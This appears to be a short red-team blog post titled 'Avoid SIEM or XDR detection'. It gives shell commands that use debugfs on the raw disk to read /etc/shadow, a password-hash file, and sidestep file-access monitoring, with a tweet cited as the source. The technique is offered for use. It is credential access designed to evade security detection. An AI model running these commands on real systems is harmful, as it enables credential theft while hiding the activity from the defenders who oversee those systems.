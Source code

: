```yaml
---
title:  "Avoid SIEM or XDR detection"
date:   2022-12-09
excerpt: ""
categories: informationsecurity
tags: 
- xdr
- edr
- red team
toc: true
toc_label: "My Table of Contents"
toc_icon: "cog"
classes: wide
---
```


## red from raw disk

Your useraccount still needes accessrights to this file

```bash
# find disk name
df /

# open file on disk
debugfs
  open /dev/sda2
  cd /etc
  cat shadow
```

Reference[^1]

[^1]<https://twitter.com/0xm1rch/status/1600857731073654784>
